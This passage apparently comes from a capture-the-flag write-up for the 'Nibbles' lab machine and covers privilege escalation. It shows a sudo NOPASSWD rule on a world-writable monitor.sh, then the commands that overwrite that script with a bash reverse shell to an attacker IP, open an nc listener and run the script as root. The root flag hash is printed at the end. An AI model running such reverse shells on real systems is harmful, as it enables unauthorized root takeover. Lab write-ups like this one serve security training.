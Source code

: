 ```
ls -la             
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .                                 
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..                               
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh

sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Seeing this, we are able to edit the file to make a reverse shell back open up as root.
To do so, we will run the following commands:

```
# target machine
echo "#!/bin/bash" > monitor.sh
echo "/bin/bash -i >& /dev/tcp/10.10.16.16/1234 0>&1" >> monitor.sh
# attacker machine
nc -lvnp 1234
# target machine
sudo /home/nibbler/personal/stuff/monitor.sh
```

Now we have root on the target system:

```
root@Nibbles:/home/nibbler/personal/stuff# whoami
whoami
root
```

Heading to the root directory we see the root.txt:

```
cat root.txt
de7fd09a6cf3a2904674f12f5ea1dc6b
```